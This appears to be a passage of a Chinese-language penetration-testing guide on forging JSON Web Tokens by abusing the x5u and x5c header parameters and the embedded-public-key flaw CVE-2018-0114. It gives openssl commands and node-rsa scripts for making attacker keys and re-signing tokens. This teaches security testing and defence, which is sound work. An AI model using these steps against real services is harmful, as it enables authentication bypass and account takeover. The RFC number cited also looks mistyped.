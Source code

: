 X.509 URL。指向一组以 PEM 格式编码的 X.509（证书格式标准）公共证书的 URI。该集合中的第一个证书必须是用于签署此 JWT 的证书。后续证书每个都签署前一个证书，从而完成证书链。X.509 在 RFC 52807 中定义。传输安全性是传输证书所必需的。

尝试**将此头部更改为您控制下的 URL**，并检查是否收到任何请求。在这种情况下，您**可以篡改 JWT**。

要使用您控制的证书伪造新令牌，您需要创建证书并提取公钥和私钥：
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt
openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem
```
然后你可以使用例如 [**jwt.io**](https://jwt.io) 来创建新的 JWT，使用 **创建的公钥和私钥，并将参数 x5u 指向创建的 .crt 证书。**

![](<../.gitbook/assets/image (956).png>)

你也可以利用这两个漏洞 **进行 SSRF**。

#### x5c

该参数可能包含 **以 base64 编码的证书**：

![](<../.gitbook/assets/image (1119).png>)

如果攻击者 **生成自签名证书** 并使用相应的私钥创建伪造的令牌，并将 "x5c" 参数的值替换为新生成的证书，并修改其他参数，即 n、e 和 x5t，那么伪造的令牌将被服务器接受。
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -outattacker.crt
openssl x509 -in attacker.crt -text
```
### 嵌入式公钥 (CVE-2018-0114)

如果JWT嵌入了公钥，如下场景所示：

![](<../.gitbook/assets/image (624).png>)

使用以下nodejs脚本，可以从该数据生成公钥：
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```
可以生成一个新的私钥/公钥，将新的公钥嵌入到令牌中，并用它生成新的签名：
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
您可以使用此 nodejs 脚本获取 "n" 和 "e"：
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
keyPair = fs.readFileSync("keypair.pem");
const key = new NodeRSA(keyPair);
const publicComponents = key.exportKey('components-public');
console.log('Parameter n: ', publicComponents.n.toString("hex"));
console.log('Parameter e: ', publicComponents.e.toString(16));
```
最终，使用公钥和私钥以及新的“n”和“e”值，您可以使用 [jwt.io](https://jwt.io) 伪造一个包含任何信息的新有效 JWT。
